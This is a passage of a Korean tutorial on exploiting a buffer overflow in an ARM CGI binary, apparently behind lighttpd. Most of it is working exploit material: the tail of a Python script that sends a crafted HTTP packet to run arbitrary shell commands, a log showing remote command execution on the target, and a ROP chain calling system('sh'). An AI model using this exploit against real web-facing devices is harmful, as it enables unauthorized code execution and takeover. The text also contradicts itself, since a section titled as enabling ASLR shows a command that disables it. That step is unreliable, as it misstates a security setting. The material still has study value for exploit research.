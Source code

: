 ```python
    pload  = payload(stack, leave, dummy_len)
    param  = form_param(pload, spray())
    packet = form_packet(ip, param, command)
    p = remote(ip, 80)
    p.send(packet)
    p.close()

    log.info("Success!")

if __name__ == "__main__":
    if (len(sys.argv) == 3):
        exploit(sys.argv[1], sys.argv[2])
    else:
        print("{} [target-ip] [shell command]".format(sys.argv[0]))
```

```
bc@machine $ ./exploit.py 172.16.13.9 'echo PWNED > /tmp/pwned'
[*] '/mnt/c/Users/314ckC47/Documents/CGI Exploitation/source/vuln'
    Arch:     arm-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x10000)
[*] Getting buffer.
[*] Exploit.
[*] Success!
```

```
/home/314ckC47 $ cat /tmp/pwned
PWNED
```



### Case: ASLR 활성화

다음과 같이 ASLR을 활성화합니다.

```
# echo 0 > /proc/sys/kernel/randomize_va_space
# cat /proc/sys/kernel/randomize_va_space
0
```



#### 종료 조건

`sp`가 참조하는 지점에 대해 Brute-forcing을 수행합니다.
Brute-forcing의 종료 조건을 위해 ROP Payload가 성공적으로 수행 될 경우 프로그램을 abort시켜 500 Internal error를 발생시키지 않도록 합니다.

```python
    # system("sh")
    rop += chain(e.got['system'], e.bss(0x24), 0, 0)

    # abort
    rop += "AAAA"*7 + purl32(abort)
```


[^`1]: [Wikipedia: 공용 게이트웨이 인터페이스](https://ko.wikipedia.org/wiki/공용_게이트웨이_인터페이스)
[^2]: https://www.lighttpd.net/
[^3]: [CGI Envrionment Variables](http://www.cgi101.com/book/ch3/text.html)
[^4]: [strcat](https://man7.org/linux/man-pages/man3/strcat.3.html)
[^5]: [Buffer overflow](https://ko.wikipedia.org/wiki/%EB%B2%84%ED%8D%BC_%EC%98%A4%EB%B2%84%ED%94%8C%EB%A1%9C)
[^6]: [Return oriented programming]([https://ko.wikipedia.org/wiki/%EB%B0%98%ED%99%98_%EC%A7%80%ED%96%A5%ED%98%95_%ED%94%84%EB%A1%9C%EA%B7%B8%EB%9E%98%EB%B0%8D](https://ko.wikipedia.org/wiki/반환_지향형_프로그래밍))